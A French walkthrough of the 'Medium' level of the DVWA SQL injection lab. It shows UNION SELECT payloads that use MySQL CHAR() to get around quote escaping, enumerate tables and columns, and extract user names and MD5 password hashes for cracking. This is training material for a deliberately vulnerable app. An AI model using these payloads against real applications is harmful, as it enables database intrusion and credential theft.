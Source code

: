 # Niveau "Medium"

Le formulaire est légèrement modifié ici puisque l'application présente non plus un champ de type `<input>` mais une liste de sélection `<select>` :

![](../../../../.gitbook/assets/01cdc18d716ae4bddce7d1c64bb83075.png)

Pour un soucis de simplicité, j'utilise ici l'extension Web Developer (possible via Burp également) qui va convertir ce nouveau formulaire en champ de type `<input>` :

![](../../../../.gitbook/assets/50601a1b929aae8bcc75f6023ff5fc6d.png)

Je tente d'injecter ma caractère spécial `"'"` afin de générer une erreur SQL :

![](../../../../.gitbook/assets/0af6ed1e681ffc6f5b9b95c97ca44859.png)

L'erreur m'informe sur la présence d'une protection car le caractère `"'"` est échappé (via le caractère `"\"`). De plus, l'erreur m'indique qu'il s'agit sans doute d'une injection de type numérique et non plus de type String (nombre de `"'"` entourant notre donnée).

Sans reprendre toutes les étapes de reconnaissance (déjà effectuées pour le niveau "Low"), voici l'exploitation de l'injection :

```sql
1 UNION SELECT 1,2
```

![](../../../../.gitbook/assets/8a1a58636b34849d9a72d55aedb3d7a3.png)

L'échappement effectué par l'application est un peu embêtant car il m'empêche d'effectuer ma clause `WHERE` :&#x20;

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = 'dvwa' -- 
```

![](../../../../.gitbook/assets/064b4c7ce96c1e4813c22f82ea99e670.png)

Afin de contourner cette limitation je peux, soit supprimer la clause, ce qui aura pour conséquence de retourner une liste de toutes les tables des différentes bases, ou alors, utiliser la fonction `CHAR()` de MySQL :

```sql
6 UNION SELECT table_name,2 FROM INFORMATION_SCHEMA.tables WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/4bdb391ab3998433c70c6425147d293f.png)

Maintenant que je peux contourner l'échappement en place, la suite est facile :

```sql
6 UNION SELECT column_name,2 FROM INFORMATION_SCHEMA.columns WHERE TABLE_SCHEMA = CHAR(100,118,119,97)
```

![](../../../../.gitbook/assets/8004e892184bbee82544170bd286f0c0.png)

Puis finalement :

```sql
6 UNION SELECT user,password FROM dvwa.users
```

![](../../../../.gitbook/assets/d564f4efc9dd1d64a60832cbd563ab3d.png)

Une fois fait, la dernière étape reste de cracker les hash md5 (32 caractères) des mots de passe en utilisant par exemple [crackstation.net](https://crackstation.net/) :

![](<../../../../.gitbook/assets/80ef0f7a16a8a069f943e801429ef8f7 (1).png>)

